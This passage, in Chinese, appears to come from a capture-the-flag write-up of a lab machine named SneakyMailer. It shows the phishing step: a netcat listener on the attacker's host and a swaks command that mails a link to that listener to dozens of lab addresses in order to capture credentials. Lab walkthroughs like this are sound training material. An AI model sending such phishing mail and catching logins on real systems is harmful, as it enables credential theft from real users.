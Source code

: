现在，设置一封钓鱼邮件来引诱用户点击链接。

接下来，在 web 服务器上设置一个监听端口 [http://10.10.14.42](http://10.10.14.42)

`nc -lvnp 7529`

当接收者点击发送的链接时，它将被 web 服务器端口捕获。

`sudo swaks --to carastevens@sneakymailer.htb,bradleygreer@sneakymailer.htb,zoritaserrano@sneakymailer.htb,zenaidafrank@sneakymailer.htb,yuriberry@sneakymailer.htb,vivianharrell@sneakymailer.htb,unitybutler@sneakymailer.htb,timothymooney@sneakymailer.htb,tigernixon@sneakymailer.htb,thorwalton@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,sulcud@sneakymailer.htb,sukiburks@sneakymailer.htb,sonyafrost@sneakymailer.htb,shouitou@sneakymailer.htb,shaddecker@sneakymailer.htb,sergebaldwin@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,rhonadavidson@sneakymailer.htb,quinnflynn@sneakymailer.htb,prescottbartlett@sneakymailer.htb,paulbyrd@sneakymailer.htb,olivialiang@sneakymailer.htb,michellehouse@sneakymailer.htb,michaelsilva@sneakymailer.htb,martenamccray@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,jenniferchang@sneakymailer.htb,jenniferacosta@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,jenagaines@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,herrodchandler@sneakymailer.htb,hermionebutler@sneakymailer.htb,haleykennedy@sneakymailer.htb,glorialittle@sneakymailer.htb,gavinjoyce@sneakymailer.htb,gavincortez@sneakymailer.htb,garrettwinters@sneakymailer.htb,fionagreen@sneakymailer.htb,finncamacho@sneakymailer.htb,doriswilder@sneakymailer.htb,donnasnider@sneakymailer.htb,dairios@sneakymailer.htb,colleenhurst@sneakymailer.htb,chardemarshall@sneakymailer.htb,cedrickelly@sneakymailer.htb,caesarvance@sneakymailer.htb,brunonash@sneakymailer.htb,briellewilliamson@sneakymailer.htb,brendenwagner@sneakymailer.htb,ashtoncox@sneakymailer.htb,angelicaramos@sneakymailer.htb,airisatou@sneakymailer.htb --server 10.10.10.197 --body “[http://10.10.14.42:7529](http://10.10.14.42:7529)"`

![](img/b97bb9281f3ddffec19455997f7bea87.png)

通过监听服务器端口进行身份验证捕获

![](img/fbf8e7d39f0cfa84d5083423e39367d6.png)![](img/e6d5e11271a704e8025ef18746ac40d9.png)
